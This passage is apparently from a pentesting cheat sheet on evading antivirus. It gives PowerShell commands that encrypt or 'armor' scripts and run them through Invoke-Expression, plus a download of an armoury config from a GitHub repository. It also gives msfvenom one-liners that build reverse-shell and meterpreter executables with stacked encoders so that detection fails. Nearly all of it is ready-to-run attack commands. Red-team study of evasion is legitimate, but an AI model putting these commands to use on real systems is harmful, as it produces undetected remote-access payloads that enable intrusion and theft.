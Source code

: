 * [https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-EncryptedScript.ps1)
* [https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/](https://powersploit.readthedocs.io/en/latest/ScriptModification/Out-EncryptedScript/)

```
PS > Out-EncryptedScript .\script.ps1 $(ConvertTo-SecureString 'Passw0rd!' -AsPlainText -Force) s4lt -FilePath .\evil.ps1
PS > . .\evil.ps1
PS > $dec = de "Passw0rd!" s4lt
PS > Invoke-Expression $dec
```


#### PowerShellArmoury

* [https://github.com/cfalta/PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury)
* [https://cyberstoph.org/posts/2019/12/evading-anti-virus-with-powershell-armoury/](https://cyberstoph.org/posts/2019/12/evading-anti-virus-with-powershell-armoury/)
* [https://cyberstoph.org/posts/2020/02/psarmoury-1.4-now-with-even-more-armour/](https://cyberstoph.org/posts/2020/02/psarmoury-1.4-now-with-even-more-armour/)

```
PS > git clone https://github.com/cfalta/PowerShellArmoury
PS > cd PowerShellArmoury
PS > curl https://github.com/snovvcrash/WeaponizeKali.sh/raw/main/conf/PSArmoury.json -o PSArmoury.json
PS > . .\New-PSArmoury.ps1
PS > New-PSArmoury -ValidateOnly -Config PSArmoury.json
PS > New-PSArmoury -Path armored.ps1 -Config PSArmoury.json
PS > cat -raw .\armored.ps1 | iex
```




## Tools



### msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```



### Veil-Evasion

Hyperion + Pescramble
